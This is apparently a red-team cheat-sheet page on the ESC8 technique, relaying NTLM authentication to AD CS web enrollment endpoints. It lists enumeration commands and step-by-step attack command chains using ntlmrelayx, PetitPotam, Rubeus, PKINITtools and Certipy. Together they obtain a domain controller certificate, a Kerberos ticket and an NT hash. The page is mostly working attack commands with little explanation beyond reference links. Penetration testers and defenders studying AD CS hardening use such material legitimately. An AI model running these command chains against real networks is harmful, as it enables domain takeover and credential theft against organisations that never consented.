 ```yaml
---
description: NTLM Relay to AD CS HTTP Endpoints
---
```


# ESC8

* [https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* [https://habr.com/ru/company/deiteriylab/blog/581758/](https://habr.com/ru/company/deiteriylab/blog/581758/)




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```
PS > Get-CertificationAuthority | select name,enroll* | fl
```




## Exploit



### ntlmrelayx

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/SecureAuthCorp/impacket/pull/1101](https://github.com/SecureAuthCorp/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs [--template VulnTemplate]
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
* [https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099](https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default, but also one may use `KerberosAuthentication`):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### Certipy

Prepare for the relay attack:

```
$ certipy relay -ca 192.168.1.11 -template DomainController
```



### ADCSPwn

* [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)
